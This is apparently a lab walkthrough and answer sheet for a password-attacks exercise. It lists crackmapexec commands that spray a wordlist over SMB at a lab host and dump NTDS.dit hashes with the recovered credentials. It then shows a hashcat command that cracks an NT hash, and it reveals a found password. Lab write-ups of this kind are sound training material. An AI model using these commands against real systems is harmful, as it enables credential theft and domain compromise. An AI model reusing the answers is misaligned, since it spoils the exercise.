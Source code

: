 
* `poetry run crackmapexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt`

<figure><img src=".gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>



* jmarston:P@ssword!

**Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)**

* `poetry run crackmapexec smb 10.129.202.85 -u jmarston -p P@ssword! --ntds`
*

    <figure><img src=".gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>


*

    <figure><img src=".gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>


* `sudo hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /home/z`
* `ihuatanejo/Desktop/rockyou.txt`

<figure><img src=".gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

